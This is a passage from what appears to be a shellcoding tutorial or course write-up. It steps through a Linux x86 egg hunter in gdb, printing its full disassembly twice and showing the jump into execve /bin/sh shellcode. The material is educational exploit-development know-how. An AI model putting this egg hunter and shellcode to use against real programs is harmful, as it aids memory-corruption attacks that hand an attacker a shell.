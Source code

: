 ~~~ nasm
0x0804a083 in egg_hunter ()
(gdb)
$4053 = 0x534b534b
$4054 = 0x804a0a4
$4055 = 0x804a0a0
$4056 = 0x804a0a8
0x804a0a8 <second_stage+8>:	0x31	0xc0	0x50	0x68
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
=> 0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a084 in egg_hunter ()
~~~

After performing an unconditional jump to the memory location referenced by the `EDI` register, the execution of the process is redirected to `0x0804a0a8` which contains the first instruction of the `exexve-stack` `/bin/sh` shellcode. Continuing the execution of the process results in the execution of `/bin/sh`.

~~~ nasm
(gdb)
$4057 = 0x534b534b
$4058 = 0x804a0a4
$4059 = 0x804a0a0
$4060 = 0x804a0a8
0x804a0a8 <second_stage+8>:	0x31	0xc0	0x50	0x68
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
=> 0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
~~~